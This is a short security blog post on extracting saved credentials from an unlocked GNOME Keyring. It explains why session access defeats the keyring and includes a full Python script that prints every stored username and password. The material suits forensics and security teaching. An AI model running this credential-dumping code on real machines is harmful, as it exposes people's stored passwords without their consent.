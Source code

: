 ```yaml
---
title:  "Extracting GNOME Keyring Credentials"
categories: [Security]
---
```


![Logo](/assets/images/seal.jpg)

## Context
* Gnome Keyring is a (good:wink:) daemon that stores different security credentials encrypted in a file in the user’s home directory. It uses the login password for encryption, and after the keyring is decrypted at logon, the password is no longer necessary in the current user’s context. 
* Since usually password managers and tools of this kind are _more for users' convenience than security_, an attacker/forensic investigator with local access could easily extract specific credentials from the GUI application (_Applications -> Accessories -> Passwords and Encryption Keyrings_), without being prompted for anything to authorize him.
* Gnome Keyring does not protect against active attacks (when the attacker has access to user’s session). 

<blockquote>
  <p>An active attacker might install an application on your computer, display a window, listen into the X events going to another window, read through your memory, snoop on you from a root account etc.</p>
  <cite><a target="_blank" href="https://wiki.gnome.org/Projects/GnomeKeyring/SecurityPhilosophy">GNOME Keyring Security Philosophy</a>
</cite> </blockquote>

* The analogous application for KDE is [KWallet](https://utils.kde.org/projects/kwalletmanager/), which workes by the same principles. Oh, and there are python bindings is a python binding for this too.

## Dump keyring credentials using Python
```python
#
# Dumps all keys stored in Ubuntu keyrings
#

import gnomekeyring
 
def extract_keys():
    ''' Extract the usernames and passwords from all the keyrings'''
    
    for keyring in gnomekeyring.list_keyring_names_sync():
    # Get keyring name - "Login" is the default passwords keyring
        kr_name = keyring.title()
        print "Extracting keys from \"%s\" keyring:" % (kr_name)
        
        items = gnomekeyring.list_item_ids_sync(keyring);
        if len(items) == 0:
            print "Keyring \"%s\" is empty\n" % (kr_name)
            # If keyring is empty, continue to next keyring
            continue
        
        for i in range(0, len(items)):
            # Get information about an item (like description and secret)
            item_info = gnomekeyring.item_get_info_sync(keyring, items[i])
            description = item_info.get_display_name()
            password = item_info.get_secret()

            # Get attributes of an item (retrieve username)
            item_attr = gnomekeyring.item_get_attributes_sync(keyring, items[i])
            username = item_attr['username_value']

            print "[%d] %s" % (i, description)
            print " %s:%s" % (username, password)
        print ""
 
if __name__ == '__main__':
    extract_keys()
```
